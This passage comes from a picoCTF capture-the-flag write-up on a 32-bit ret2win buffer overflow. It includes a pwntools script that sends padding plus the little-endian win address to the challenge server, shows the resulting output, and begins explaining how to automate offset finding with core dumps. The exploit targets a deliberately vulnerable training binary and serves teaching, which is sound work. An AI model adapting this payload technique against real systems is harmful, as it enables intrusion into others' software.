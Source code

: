 
Win is at `0x80491f6`, but we need to convert it to the little endian format. You can do this with the pwntools `p32()` command, which results in `\xf6\x91\x04\x08`.
Let's make a final visual of our payload:

![Payload Visual](asset/pico22/buffer-overflow/payload-visual.png)

Let's write our payload and send it to the remote server with Python3/pwntools:

{% codeblock lang:py buffer-overflow-1.py https://gist.github.com/jktrn/23ec53b007e3589c6793acffce207394 <span style="color:#82C4E4">[github gist link]</span> %}
#!/usr/bin/env python3
from pwn import *

payload = b"A"*44 + p32(0x80491f6)  # Little endian: b'\xf6\x91\x04\x08'
host, port = "saturn.picoctf.net", [PORT]

p = remote(host, port)      # Opens the connection
log.info(p.recvS())         # Decodes/prints "Please enter your string:"
p.sendline(payload)         # Sends the payload
log.success(p.recvallS())   # Decodes/prints all program outputs
p.close()                   # Closes the connection
{% endcodeblock %}

Let's try running the script on the server:

<figure class="highlight text"><table><tr><td class="code">
<pre><span class="meta prompt_">$ </span>python3 buffer-overflow-1.py
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to saturn.picoctf.net on port <span style="color:#696969"><b>[PORT]</b></span>: Done
[<span style="color:#277FFF"><b>*</b></span>] Please enter your string: 
[<span style="color:#47D4B9"><b>+</b></span>] Receiving all data: Done (100B)
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to saturn.picoctf.net port <span style="color:#696969"><b>[PORT]</b></span>
[<span style="color:#47D4B9"><b>+</b></span>] Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
    picoCTF{addr3ss3s_ar3_3asy_<span style="color:#696969"><b>[REDACTED]</b></span>}
</pre></td></tr></table></figure>

We have completed our first `ret2win` buffer overflow on a x32 binary! Yet, this is just the beginning. How about we spice things up a little bit?

### IV: Automating the Stack 🔧

Although the concept of buffer overflows can seem daunting to newcomers, experienced pwners will often find these sorts of challenges trivial, and don't want to spend the effort manually finding offsets and addresses just to send the same type of payload. This is where our best friend comes in: **pwntools** helper functions and automation! Let's start with the first part - the `$eip` offset for x32 binaries.

The main helper we will be using is [`pwnlib.elf.corefile`](https://docs.pwntools.com/en/stable/elf/corefile). It can parse [core dump](https://www.ibm.com/docs/en/aix/7.1?topic=formats-core-file-format) files, which are generated by Linux whenever errors occur during a running process. These files take an **image** of the process when the error occurs, which may assist the user in the debugging process. Remember when we sent a large `cyclic` pattern which was used to cause a segmentation fault? We'll be using the core dump to view the state of the registers during that period, without needing to step through it using GDB. We'll be using the coredump to eventually find the offset!
